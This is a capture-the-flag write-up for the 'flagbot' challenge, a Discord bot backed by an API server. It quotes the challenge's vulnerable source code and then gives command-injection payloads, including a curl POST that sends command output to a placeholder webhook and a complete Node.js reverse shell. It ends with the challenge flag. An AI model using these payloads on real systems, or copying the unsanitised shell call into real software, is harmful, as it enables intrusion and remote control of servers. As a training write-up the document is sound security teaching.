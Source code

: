 # flagbot

## Challenge

a discord bot is playing a song from youtube on loop

some bot commands are restricted to owners, some are restricted to the author of the bot

the bot was set up by the author typing a command, it remembers the song id and sends it to an api server, which returns the audio stream

the bot must resend this song id every loop

## Solution

none of the user commands are helpful, we must escalate to owner status

from the source code:

```js
// must have special role!!!!
let isOwner = msg.guild
    && msg.channel.type === "text"        // wouldnt this be funny lol
    && msg.member.roles.cache.find(r => r.name === /*"Server Booster*/ "flagbot");

// must be a bot author :)
//              Strellic               FizzBuzz101
let isAuthor = ["140239296425754624", "480599846198312962"].includes(msg.author.id);
```

the owner is verified by the following criteria:

 - the message must be sent in a server
 - the message must be sent in a text channel
 - the message sender must have the role "flagbot"

if we use developer tools to get the client id of the bot, we can see that the bot is public, not private

therefore, we can invite it to our personal discord server

we can give ourselves a role called "flagbot" and access all owner commands

the useful owner command from the source code:

```js
else if(cmd === "status") {
            if(!isOwner) {
                return msg.reply("you are not the bot's owner!");
            }

            fetch(API + "/check", {
                method: "POST",
                headers: {
                    "Content-Type": "application/json"
                },
                body: JSON.stringify({ url: args.slice(1).join(" ") })
            }).then(r => r.text()).then(r => {
                return msg.reply(r);
            })
            .catch(err => {
                return msg.reply(`there was an error checking for the website status!`);
            });
        }
```

which interacts with the api from:

```js
app.post("/check", (req, res) => {
    let url = req.body.url;
    if(!url || typeof url !== "string" || !url.startsWith("http")) {
        return res.end("invalid url!");
    }
    exec(`curl -s --head --request GET "${url.replace(/"/g, '')}"`, {timeout: 1000}, (error, stdout, stderr) => {
        if(error || stderr || (!stdout.includes("200") && !stdout.includes("301"))) {
            return res.end(`the website is down!`);
        }
        return res.end(`the website is up!`);
    });
});
```

this uses string substitution in a bash command

we can use the `$(...)` to execute commands within this curl command

by sending a url like `https://<owned-webhook>/$(echo test)` we can run commands and leak the output

we can get more complicated output using `https://google.com/$(echo test 2>&1 | curl -s -X POST --data-binary @- https://<owned-webhook>)`

here it does not matter what the first url is, as the second url will receive the POST request

lastly, known nodejs is running on the server, we can spawn a reverse shell by piping stdin to node:

```
f!status https://google.com/$(echo '(function(){
    var net = require(`net`),
        cp = require(`child_process`),
        sh = cp.spawn(`/bin/sh`, []);
    var client = new net.Socket();
    client.connect(4242, `<owned-webhook>`, function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();' | node 2>&1 | curl -s -X POST --data-binary @- https://<owned-webhook>)
```

once we have a reverse shell there are a number of options we have

the solution I used was `node inspect <PID>` to attach to the running node server

from the debugger, you could watch the `url` variable and set a breakpoint for when the bot looped

then you could read the youtube video url from the debugger and get the flag

## Flag

`corctf{what_a_bop_amiright??}`

